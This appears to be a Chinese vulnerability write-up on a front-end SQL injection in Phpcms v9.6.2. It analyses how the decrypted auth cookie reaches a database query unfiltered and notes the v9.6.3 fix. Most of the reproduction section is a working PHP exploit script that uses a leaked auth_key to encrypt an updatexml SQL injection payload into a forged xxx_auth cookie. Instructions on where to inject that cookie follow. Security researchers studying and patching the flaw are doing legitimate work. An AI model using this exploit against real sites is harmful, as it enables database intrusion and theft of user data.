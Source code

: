 Phpcms v9.6.2 前台sql注入
=========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms v9.6.2

三、复现过程
------------

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的
**key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload**
。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲
**v9.6.2** 版本的注入只能在 **windows**
上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php**
，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据
**\$phpcms\_auth** 和解密秘钥 **\$auth\_key** 均可构造。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId25.png)

我们先来看一下待解密数据 **\$phpcms\_auth**
如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx\_auth**
字段经过 **sys\_auth** 函数解密后，返回给了 **\$phpcms\_auth**
，而默认情况下使用 **pc\_base::load\_config(\'system\', \'auth\_key\')**
作为加解密的 **key** 值。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId26.png)

而 **pc\_base::load\_config(\'system\', \'auth\_key\')**
的值在网站搭建好后，会存储在 **caches/configs/system.php**
中，我们可以通过任意文件读取来获得这个值。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId27.png)

现在 **\$phpcms\_auth** 已经搞定了，我们再来看看 **\$auth\_key =
get\_auth\_key(\'login\')** 如何构造，跟进 **get\_auth\_key**
的代码。我们可以看到 **\$auth\_key** 由
**\$prefix、pc\_base::load\_config(\'system\',\'auth\_key\')、ip()**
三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId28.png)

所以 **get\_auth\_key(\'login\')**
的值也是我们可以构造的，剩下的事情只要我们将 **payload**
传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3**
中是如何修复这个漏洞的，补丁如下：

![](resource/Phpcmsv9.6.2前台sql注入/media/rId29.png)

可以明显看到，补丁将解密后获得的 **\$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get\_cookie('auth')
得到\$phpcms\_auth，get\_auth\_key('login')得到\$auth\_key，然后sys\_auth(\$phpcms\_auth,
'DECODE', \$auth\_key)。

再通俗些的话：sys\_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth\_key进行sys\_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys\_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys\_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth\_key作为key与第一次加密的密文传入sys\_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

    <?php
    function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
        $ckey_length = 4;
        $key = md5($key != '' ? $key : $auth_key);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);

        $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);

        $result = '';
        $box = range(0, 255);

        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }

        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }

        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }

        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {

                return '';
            }
        } else {
            return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
        }
    }

    function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
        if($prefix=='login'){
            $pc_auth_key = md5($auth_key.$ip);
        }else if($prefix=='email'){
            $pc_auth_key = md5($auth_key);
        }else{
            $pc_auth_key = md5($auth_key.$suffix);
        }
        $authkey = md5($prefix.$pc_auth_key);
        return $authkey;
    }

    //解密过程
    //step 1
    $encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
    $operation1 = 'DECODE';
    $decryption_step1 = (sys_auth($encryption_str, $operation1));
    echo 'decryption_step1 result:'.$decryption_step1."\n";

    //step 2
    $decryption_step2 = $decryption_step1;
    $auth_key = get_auth_key('login');
    echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

    echo '-----------------------'."\n" ;


    //加密过程
    //step 1
    $clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
    $operation2 = 'ENCODE';
    $encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
    echo 'encryption_step1 result:'.$encryption_step1."\n";

    //step 2
    $encryption_step2 = (sys_auth($encryption_step1, $operation2));
    echo 'encryption_step2 result:'.$encryption_step2;

使用上面的代码可以进行解密和加密，下图中decryption\_step2
result的值便是对payload进行解密的最终结果，encryption\_step2的值是对payload进行加密的最终结果。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId31.png)

最终利用的现象，cookie中的YDVIB\_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx\_auth的参数名称，便是存在漏洞的位置。

![](resource/Phpcmsv9.6.2前台sql注入/media/rId32.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
>
> <https://xz.aliyun.com/t/5731>

